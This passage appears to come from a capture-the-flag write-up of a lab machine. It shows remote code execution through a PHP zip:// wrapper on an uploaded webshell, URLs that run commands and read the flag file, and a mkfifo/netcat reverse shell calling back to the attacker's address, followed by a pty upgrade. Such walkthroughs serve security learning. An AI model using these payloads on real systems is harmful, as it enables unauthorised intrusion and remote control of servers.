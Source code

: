 > To force the ‘content’ part to be a file, prefix the file name with an @
> sign. To just get the content part from a file, prefix the file name with
> the symbol <. The difference between @ and < is then that @ makes a file get
> attached in the post as a file upload, while the < makes a text field and
> just get the contents for that text field from a file.

The source showed that the uploads are stored in `/uploads/[ip]/`, and
checking out the link for this file offers a binary file, which is a good
sign. Now, using the zip filter, we have code exec by visiting
`http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=id`
and seeing:

    
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### user.txt

With the webshell, we can get user.txt:

url | result  
---|---  
http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home | dom  
http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home/dom | user.txt  
http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=cat%20/home/dom/user.txt | 28a3c49d…  
  
## Interactive Shell

With the webshell, check for `nc -e`, but neither `nc` nor `nc.openbsd` have
the option. So, use a `fifo pipe`. Visit
`http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=rm%20/tmp/d;%20mkfifo%20/tmp/d;%20cat%20/tmp/d%20|%20/bin/sh%20-i%202%3E%261|nc%2010.10.14.139%208081%20%3E%20/tmp/d`,
and catch callback:

    
    
    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 50870
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ which python
    $ which python3
    /usr/bin/python3
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/html$
    
